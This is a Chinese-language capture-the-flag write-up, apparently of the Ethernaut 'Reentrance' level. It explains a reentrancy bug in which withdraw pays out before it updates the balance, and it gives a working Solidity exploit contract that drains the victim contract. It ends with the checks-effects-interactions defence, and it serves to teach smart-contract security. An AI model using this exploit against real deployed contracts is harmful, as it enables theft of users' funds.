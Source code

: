 # 第十关：Reentrance

[toc]
### 本关知识点：
```
对外部方法调用产生的重入攻击。
```

## 1. 题目要求
` 偷走合约的所有资产`

## 2. 代码功能解读
![[Pasted image 20230516153630.png]]


## 3. 漏洞分析
```
重入攻击
	在withdraw方法中，合约先将钱发送给对方，然后再扣除余额，我们通过发钱的时候触发回调函数来再次进入合约，完成多次提取相同的余额。
```

## 4. 攻击方法
1. 攻击合约调用withdraw发送取出所有的钱，
2. 在合约的receivefallback方法中再次进入withdraw，请求的amount为0.01，这样我们可以让合约产生下溢。
3. 最后查看合约有多少钱，直接withdraw全部调走。
``` java


contract Exploit {

  Reentrance victim;

  

  constructor (address victim_) payable {

    victim = Reentrance(payable(victim_));

  }

  

  function attack() public payable {

    victim.donate{value: 0.001 ether}(address(this));

    victim.withdraw(0.001 ether);

  }

  

  receive() external payable{

    if(address(victim).balance != 0 ){

      victim.withdraw(0.001 ether);

    }

  }

  function kill(address to) public {

    selfdestruct(payable(to));

  }

}
```

## 5. 攻击调用图

部署的时候记得往合约发送大于0.001ether的金额
攻击成功，我们在受害者合约中的balances很大，且受害者合约余额为0
![[Pasted image 20230516155701.png]]
![[Pasted image 20230516160111.png]]

## 6. 知识点分析
重入攻击是最普遍的攻击之一，我们在编写合约的时候，要遵守`检查-生效-交互`的模式，防止合约被黑客利用。